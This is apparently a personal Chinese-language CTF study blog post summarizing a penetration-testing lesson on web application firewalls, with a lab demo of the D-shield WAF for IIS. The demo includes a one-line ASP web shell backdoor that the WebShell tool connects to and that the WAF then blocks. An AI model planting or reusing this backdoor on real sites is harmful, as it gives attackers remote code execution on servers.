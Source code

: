 ```yaml
---
title: 20250101CTF学习笔记28
date: 2025-01-01
tags:
 - CTF
 - CTFLearn
categories:
   - 命理学 Numerology
isShowComments: true
publish: true














---
```


<Boxx/>

从0开始学习CTF，了解CTF基本规则、方法，这是开始打卡学习的第44天

发现单纯学习CTF没有一个系统完整的课程，所以准备学小迪安全的渗透测试课程，希望能打一个好基础。

此外，还应该多参加各种CTF比赛，或者是每天练习CTF赛题，理论与实践相结合。

[[toc]]

- 小迪安全视频地址【[🔗传送门]([https://www.bilibili.com/video/BV123yAYMEwb/)】

<!-- more -->

# 第22章：Web架构&OSS存储&负载均衡&CDN加速&反向代理&WAF防护

## 工具推荐：

AnyTXTSearcher：可以对电脑所有文本进行全文搜索，有时候记不起文件名，只记得关键词或者一句话，那AnyTXT会帮你立刻找到，速度极快，而且右边可以直接预览文本，还支持筛选、复制、翻译等。

## 整体代入

标题这五个内容是我们在网站架构中可能会出现的五种情况，我们需要看这五种情况在出现以后会对我们的渗透测试产生什么影响

## WAF

**全名：**` Web Application Firewall `，即 Web 应用防火墙

**原理：**Web应用防火墙，旨在提供保护

**影响：**常规Web安全测试

**分类：**

![image-20250103202805760](/img/ctfLearn/image-20250103202805760.png)

以前面三个最为常见，在公司产品中以硬件为主，个人使用以软件为主，还有云厂商提供WAF服务

**举例：**只有免费例子Windows2012+IIS+D盾

> [『D盾_防火墙』](https://www.d99net.net/)专为IIS设计的一个主动防御的保护软件,以内外保护的方式 防止网站和服务器给入侵,在正常运行各类网站的情 况下，越少的功能，服务器越安全的理念而设计！ 限制了常见的入侵方法，让服务器更安全!

![image-20250103192959876](/img/ctfLearn/image-20250103192959876.png)

视频中演示的过程是在网站中做了个后门，具体是一个asp后门，内容为

```asp
<%eval request("pass")%>
```

**无WAF情况：**

尝试在没有WAF的情况下访问网站，进入1.asp页面，发现是可以访问到的。

然后用WebShell工具连接后门，连接密码是后门中的`pass`，看到是可以正常连接的。

**开启WAF后：**

也就是点击软件中的“安装D盾防护”，稍等即弹出安装成功。

![image-20250103193815689](/img/ctfLearn/image-20250103193815689.png)

此时访问页面时，会提示“禁止脚本的访问，如有疑问，请和管理员联系”。

![image-20250103193746128](/img/ctfLearn/image-20250103193746128.png)

用WebShell工具连接时，发现提示“初始化失败”，无法连接。

**结论：**

1. WAF是我们可以在服务器网站上的安全保护程序，类似我们电脑上的杀毒软件，开启对网站和服务器的保护。像D盾有非常多常规Web攻击手段的拦截，包括后门，可以在相应设置中开启。
2. 在以后可能碰到有WAF防护的这种网站，有很多种类的WAF，而WAF绕过是钻空子的方法，只针对防护能力较差的WAF。大公司的WAF基本都绕过不了，能绕过的都基本是没有作用的绕过，没有什么意义。